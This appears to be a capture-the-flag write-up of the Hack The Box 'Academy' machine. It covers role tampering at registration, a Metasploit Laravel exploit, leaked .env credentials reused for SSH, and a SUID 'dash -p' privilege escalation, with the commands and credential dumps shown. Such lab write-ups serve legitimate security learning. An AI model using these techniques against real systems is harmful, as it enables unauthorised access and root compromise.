


## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Intrusion
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

1. Exploit register function's post form
2. Find the staging host
3. Exploit a vulnerability in the laravel php framework w/metasploit
4. Privesc using dash suid 

## [](#header-2)Recon:
Initially when I began to navigate to the target IP it was only accessible after adding the domain "academy.htb" to /etc/hosts file.
 
More on why here: [understanding-etc-hosts-file-in-linux](https://www.thegeekdiary.com/understanding-etc-hosts-file-in-linux/)


Scanning for default scripts as well as services (nmap -sC -sV <target IP>) we got the following:


Very little which works for me since there is less to target. 

I then visit the website to get the lay of the land and notice there is two pieces of functionality: A Register and Login page


Logging in with a new account just brought me to a dead end page



Being a little stuck I ran a gobuster search and got the following:


The admin page was a simple login page similar to the regular login page


Only after looking under the hood at the requests on the register page, I found  an interesting field called roleID


Once I changed the value of my role to 1 and forwarded the post request, I was able to login to the admin portal


## [](#header-2)Intrusion:

The last item on the to do list stood out to me the most, so after adding the staging domain to my /etc/hosts file I was able to access their staging/testing platform.


I found the following information useful and after wondering what laravel was and getting sidetracked I looked it up and found it to be a php framework

```bash
Environment & details:
GET Data empty
POST Data empty
Files empty
Cookies empty
Session empty
Server/Request Data
HTTP_HOST 	

"dev-staging-01.academy.htb"

HTTP_USER_AGENT 	

"Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

HTTP_ACCEPT 	

"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"

HTTP_ACCEPT_LANGUAGE 	

"en-US,en;q=0.5"

HTTP_ACCEPT_ENCODING 	

"gzip, deflate"

HTTP_CONNECTION 	

"keep-alive"

HTTP_UPGRADE_INSECURE_REQUESTS 	

"1"

HTTP_SEC_GPC 	

"1"

HTTP_DNT 	

"1"

PATH 	

"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

SERVER_SIGNATURE 	

"<address>Apache/2.4.41 (Ubuntu) Server at dev-staging-01.academy.htb Port 80</address>

"

SERVER_SOFTWARE 	

"Apache/2.4.41 (Ubuntu)"

SERVER_NAME 	

"dev-staging-01.academy.htb"

SERVER_ADDR 	

"10.10.10.215"

SERVER_PORT 	

"80"

REMOTE_ADDR 	

"10.10.15.88"

DOCUMENT_ROOT 	

"/var/www/html/htb-academy-dev-01/public"

REQUEST_SCHEME 	

"http"

CONTEXT_PREFIX 	

""

CONTEXT_DOCUMENT_ROOT 	

"/var/www/html/htb-academy-dev-01/public"

SERVER_ADMIN 	

"admin@htb"

SCRIPT_FILENAME 	

"/var/www/html/htb-academy-dev-01/public/index.php"

REMOTE_PORT 	

"57582"

GATEWAY_INTERFACE 	

"CGI/1.1"

SERVER_PROTOCOL 	

"HTTP/1.1"

REQUEST_METHOD 	

"GET"

QUERY_STRING 	

""

REQUEST_URI 	

"/"

SCRIPT_NAME 	

"/index.php"

PHP_SELF 	

"/index.php"

REQUEST_TIME_FLOAT 	

1610683900.858

REQUEST_TIME 	

1610683900

APP_NAME 	

"Laravel"

APP_ENV 	

"local"

APP_KEY 	

"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	

"true"

APP_URL 	

"http://localhost"

LOG_CHANNEL 	

"stack"

DB_CONNECTION 	

"mysql"

DB_HOST 	

"127.0.0.1"

DB_PORT 	

"3306"

DB_DATABASE 	

"homestead"

DB_USERNAME 	

"homestead"

DB_PASSWORD 	

"secret"

BROADCAST_DRIVER 	

"log"

CACHE_DRIVER 	

"file"

SESSION_DRIVER 	

"file"

SESSION_LIFETIME 	

"120"

QUEUE_DRIVER 	

"sync"

REDIS_HOST 	

"127.0.0.1"

REDIS_PASSWORD 	

"null"

REDIS_PORT 	

"6379"

MAIL_DRIVER 	

"smtp"

MAIL_HOST 	

"smtp.mailtrap.io"

MAIL_PORT 	

"2525"

MAIL_USERNAME 	

"null"

MAIL_PASSWORD 	

"null"

MAIL_ENCRYPTION 	

"null"

PUSHER_APP_ID 	

""

PUSHER_APP_KEY 	

""

PUSHER_APP_SECRET 	

""

PUSHER_APP_CLUSTER 	

"mt1"

MIX_PUSHER_APP_KEY 	

""

MIX_PUSHER_APP_CLUSTER 	

"mt1"

Environment Variables
APP_NAME 	

"Laravel"

APP_ENV 	

"local"

APP_KEY 	

"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	

"true"

APP_URL 	

"http://localhost"

LOG_CHANNEL 	

"stack"

DB_CONNECTION 	

"mysql"

DB_HOST 	

"127.0.0.1"

DB_PORT 	

"3306"

DB_DATABASE 	

"homestead"

DB_USERNAME 	

"homestead"

DB_PASSWORD 	

"secret"

BROADCAST_DRIVER 	

"log"

CACHE_DRIVER 	

"file"

SESSION_DRIVER 	

"file"

SESSION_LIFETIME 	

"120"

QUEUE_DRIVER 	

"sync"

REDIS_HOST 	

"127.0.0.1"

REDIS_PASSWORD 	

"null"

REDIS_PORT 	

"6379"

MAIL_DRIVER 	

"smtp"

MAIL_HOST 	

"smtp.mailtrap.io"

MAIL_PORT 	

"2525"

MAIL_USERNAME 	

"null"

MAIL_PASSWORD 	

"null"

MAIL_ENCRYPTION 	

"null"

PUSHER_APP_ID 	

""

PUSHER_APP_KEY 	

""

PUSHER_APP_SECRET 	

""

PUSHER_APP_CLUSTER 	

"mt1"

MIX_PUSHER_APP_KEY 	

""

MIX_PUSHER_APP_CLUSTER 	

"mt1"

Registered Handlers
```
Next step is to find a quick exploit in metasploit


## [](#header-2)Exploitation:

Once I set up the exploit in MSF, I finally get the initial shell


After finding some information in the .env  file I was able to use the password uncovered to ssh into the server

```bash

cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"

```
## [](#header-2)Privilege Escalation:
From here the privesc was not bad at all. After finding all SUID binaries with 

```bash
find / -perm -u=s -type f 2>/dev/null
```

I see that the dash shell has a suid bit and will allow me to execute as root

```bash
dash -p
```

-p flag meaning:
 Turned on whenever the real and effective user ids do not match.
 Disables processing of the $ENV file and importing of shell functions.  Turning this option off causes the effective uid and gid to be set to the real uid and gid.


There we go!